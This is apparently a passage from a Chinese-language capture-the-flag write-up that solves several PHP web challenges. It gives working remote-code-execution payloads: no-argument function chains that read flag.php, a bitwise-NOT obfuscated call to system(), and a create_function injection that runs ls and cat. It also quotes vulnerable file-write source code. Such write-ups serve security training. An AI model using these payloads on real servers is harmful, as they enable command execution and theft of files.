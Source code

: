 看上级目录下的文件 `?exp=echo(var_dump(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv())))))))))));`

```
../
?> array(3) { 
[0]=> string(1) "." 
[1]=> string(2) ".." 
[2]=> string(4) "html" }
```

看来就在当前目录下处理就行了，next方法可以获取数组的第二个值。把列表逆向排序一下。

打印数组逆向 `?exp=echo(var_dump(array_reverse(scandir(pos(localeconv())))));`

打印数组逆向后第二值即flag.php `?exp=echo(var_dump(next(array_reverse(scandir(pos(localeconv()))))));`

最终payload `?exp=echo(highlight_file(next(array_reverse(scandir(pos(localeconv()))))));`

或 `?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));`

显示出flag

`xmctf{4daaf692b14569babe0dfc7d6e67698e}`

## web4

`dhudndrgrhs.php?shell=${~"\xa0\xb8\xba\xab"}[1](${~"\xa0\xb8\xba\xab"}[2]);&1=system&2=cat flag.php`

`$flag='xmflag{yi_giao_wo_li_giao_giao}';`

## easy-web

先ls一下。[可参考](https://blog.csdn.net/qq_45808659/article/details/105799699)

hackbar:
    
    GET: ?act=\create_function&arg=){return%20123;}system(%27ls ../%27);//
    POST: key=123

发现ffflll4g，然后cat出来

hackbar:
    
    GET: /?act=\create_function&arg=){return%20123;}system(%27cat%20/ffflll4g%27);//
    POST: key=123

flag{99798edf2eb1fa20d8ed9ce7da85f902}

## web12

```php
<?php
highlight_file(__FILE__);
$content = @$_GET['content'] ? "---mylocalnote---\n" . $_GET['content'] : "";
$name = @$_GET['name'] ? $_GET['name'] : '';
str_replace('/', '', $name);
str_replace('\\', '', $name);
file_put_contents("/tmp/" . $name, $content);
session_start();
if (isset($_SESSION['username'])) {
    echo "Thank u,{$_SESSION['username']}";
}
//flag in flag.php 
```
